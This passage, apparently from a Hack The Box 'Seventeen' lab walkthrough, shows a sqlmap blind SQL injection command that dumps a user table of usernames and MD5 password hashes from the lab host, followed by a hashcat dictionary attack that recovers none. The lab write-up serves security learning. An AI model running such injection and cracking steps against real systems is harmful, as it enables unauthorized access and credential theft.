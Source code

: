 ```bash
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D db_sfms -T user --dump

...SNIP...

Database: db_sfms
Table: user
[3 entries]
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| user_id | status        | lastname      | password                         | username         | firstname     |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
| 1       | administrator | Administrator | fc8ec7b43523e186a27f46957818391c | admin            | Administrator |
| 2       | Regular       | Anthony       | b35e311c80075c4916935cbbbd770cef | UndetectableMark | Mark          |
| 4       | Regular       | Smith         | 112dd9d08abf9dcceec8bc6d3e26b138 | Stev1992         | Steven        |
+---------+---------------+---------------+----------------------------------+------------------+---------------+
```

Found 3 credentials.
It seems that `administrator` in two different DBs are using the same password.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 sfms.hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...SNIP...

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: sfms.hashes
Time.Started.....: Sun Mar 16 01:57:26 2025 (2 secs)
Time.Estimated...: Sun Mar 16 01:57:28 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5846.1 kH/s (0.04ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 0/3 (0.00%) Digests (total), 0/3 (0.00%) Digests (new)
```

No hashes were cracked.
